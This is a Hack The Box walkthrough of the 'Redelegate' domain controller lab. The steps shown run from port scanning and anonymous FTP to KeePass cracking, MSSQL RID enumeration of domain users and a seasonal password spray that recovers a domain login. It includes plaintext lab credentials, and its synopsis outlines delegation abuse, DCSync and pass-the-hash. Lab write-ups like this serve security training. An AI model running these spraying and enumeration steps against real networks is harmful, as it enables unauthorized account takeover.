# HTB - Redelegate

**IP Address:** `10.129.234.50`  
**OS:** `Windows Server 2022 (Build 20348) — Domain Controller`  
**Difficulty:** `Hard`  
**Tags:** #ActiveDirectory #FTP #KeePass #MSSQL #PasswordSpray #ForceChangePassword #SeEnableDelegationPrivilege #ConstrainedDelegation #DCSync

---
## Synopsis

Redelegate is a hard Windows Domain Controller. Anonymous FTP exposes a shared KeePass database and training material that hints at a `SeasonYear!` password pattern. Cracking the vault yields local MSSQL credentials (`SQLGuest`), which are used to enumerate domain accounts via RID brute force. A seasonal password spray recovers `Marie.Curie`, a Helpdesk member with `ForceChangePassword` over `Helen.Frost`. Resetting Helen grants WinRM and the user flag; Helen also holds `SeEnableDelegationPrivilege` and, via the IT group, `GenericAll` over `FS01$`. After taking control of that machine account and configuring constrained delegation to `cifs/dc.redelegate.vl`, an S4U ticket impersonating `dc` enables a targeted secrets dump of Administrator and a Pass-the-Hash shell for the root flag.

---
## Skills Required

- Windows / AD enumeration (`nmap`, NetExec, BloodHound)
- Credential recovery from KeePass and password spraying
- Basic MSSQL authentication and domain SID/RID enumeration
- Understanding ACL abuse (`ForceChangePassword`) and WinRM access

## Skills Learned

- Building seasonal password wordlists from OSINT-style hints
- Enumerating domain users through low-privilege MSSQL logins
- Mapping Helpdesk ACL paths and resetting accounts with `bloodyAD`
- Abusing `SeEnableDelegationPrivilege` + computer-object control for constrained delegation / DCSync

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.234.50
```



TTL `127` is consistent with a Windows host one hop away.

---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.234.50 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```



Open ports include FTP, DNS, HTTP, Kerberos, LDAP/LDAPS, SMB, RDP, WinRM, ADWS, plus dynamic RPC ranges — a Domain Controller footprint.

---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p21,53,80,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,47001,49664,49665,49666,49667,52130,56463,62321,62324,62327,62328,62334 10.129.234.50 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  




**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 21/tcp | Microsoft ftpd | **Anonymous login allowed**; files `CyberAudit.txt`, `Shared.kdbx`, `TrainingAgenda.txt` |
| 53/tcp | Simple DNS Plus | Domain DNS |
| 80/tcp | IIS 10.0 | Default IIS page |
| 88/tcp | Kerberos | Domain auth |
| 389/3268/tcp | AD LDAP / GC | Domain `redelegate.vl`, host `dc.redelegate.vl` |
| 445/tcp | SMB | Signing required |
| 3389/tcp | RDP | Cert CN `dc.redelegate.vl` |
| 5985/tcp | WinRM | Remote management |

Map the discovered hostname locally:

```bash
echo '10.129.234.50 dc.redelegate.vl redelegate.vl' | sudo tee -a /etc/hosts
```

---
## 2. Service Enumeration

### 2.1 Anonymous FTP Enumeration

Anonymous FTP is the clearest entry point from the targeted scan, so list and download the exposed files:

```bash
ftp 10.129.234.50
# anonymous / (empty password)
ls
get CyberAudit.txt
get TrainingAgenda.txt
binary
get Shared.kdbx
exit
```



ASCII mode warned on `Shared.kdbx`, so re-download in binary mode:



Review the text files for operational hints:

```bash
cat CyberAudit.txt
cat TrainingAgenda.txt
```



`TrainingAgenda.txt` explicitly calls out `"SeasonYear!"` as a weak password pattern (October 2024 agenda). `CyberAudit.txt` flags weak passwords and dangerous AD ACLs still **IN PROGRESS**.

---
### 2.2 KeePass Credential Recovery

Build a short seasonal wordlist matching the training hint, then unlock `Shared.kdbx`:

```bash
cat > passwords.txt << 'EOF'
Winter2024!
Spring2024!
Summer2024!
Fall2024!
Autumn2024!
EOF
```



The KeePass master password is `Fall2024!`. The vault organizes entries under Shared → IT / HelpDesk / Finance:



Recovered secrets were recorded as:

```bash
cat creds.txt
```



**Recovered (selected):**

| Account | Password / Secret | Notes |
|---|---|---|
| KeePass master | `Fall2024!` | Unlocks `Shared.kdbx` |
| Administrator | `Spdv41gg4BlBgSYIW1gF` | Domain auth failed later |
| FTPUser | `SguPZBKdRyxWzvXRWy6U` | FTP login failed |
| SQLGuest | `zDPBpaF4FywlqIv11vii` | Valid MSSQL local login |
| Payroll | `cVkqz4bCM7kJRSNlgx2G` | Vault entry |
| Timesheet | `hMFS4I0Kj8Rcd62vqi5X` | Vault entry |

---
### 2.3 Credential Validation (Dead Ends)

Test high-value vault credentials against common services before pivoting to MSSQL:

```bash
ftp 10.129.234.50
# FTPUser / vault password → 530 User cannot log in
```



```bash
nxc winrm 10.129.234.50 -u Administrator -p 'Spdv41gg4BlBgSYIW1gF' -d redelegate.vl
nxc smb 10.129.234.50 -u Administrator -p 'Spdv41gg4BlBgSYIW1gF' -d redelegate.vl
```



Administrator vault password is not valid for domain WinRM/SMB (`STATUS_LOGON_FAILURE`).

---
### 2.4 MSSQL Local Login & Domain Account Enumeration

`SQLGuest` succeeds as a local MSSQL login. Connect and confirm the low-priv context:

```bash
nxc mssql 10.129.234.50 -u SQLGuest -p 'zDPBpaF4FywlqIv11vii' --local-auth
impacket-mssqlclient 'SQLGuest:zDPBpaF4FywlqIv11vii@10.129.234.50'
```



Inside the session: `SYSTEM_USER` = `SQLGuest`, `USER_NAME()` = `guest`, server `WIN-Q130908QBPG\SQLEXPRESS` (SQL Server 2019 Express), `IS_SRVROLEMEMBER('sysadmin')` = `0`.

Use Metasploit’s MSSQL domain-account enumerator to RID-brute domain principals:

```bash
msfconsole
use auxiliary/admin/mssql/mssql_enum_domain_accounts
set RHOSTS 10.129.234.50
set USERNAME SQLGuest
set PASSWORD zDPBpaF4FywlqIv11vii
set FUZZNUM 9999
run
```



Extract human-looking users (plus `sql_svc`) into a spray list:

```bash
grep -oP 'REDELEGATE\\\K(?:[A-Za-z]+\.[A-Za-z]+|sql_svc)' \
  /home/kali/.msf4/loot/*_mssql.domain.acc_*.txt > users.txt
```



---
## 3. Foothold

### 3.1 Password Spray → Marie.Curie

Spray the seasonal wordlist against the enumerated users over SMB:

```bash
nxc smb redelegate.vl -u users.txt -p passwords.txt
```



**Hit:** `redelegate.vl\Marie.Curie:Fall2024!`

Confirm LDAP authentication with the same credentials:

```bash
nxc ldap redelegate.vl -u marie.curie -p 'Fall2024!'
```



---
### 3.2 BloodHound Collection (RustHound)

Collect AD objects for graph analysis with Marie’s valid domain credentials:

```bash
rusthound-ce -d redelegate.vl -u marie.curie -p 'Fall2024!'
```

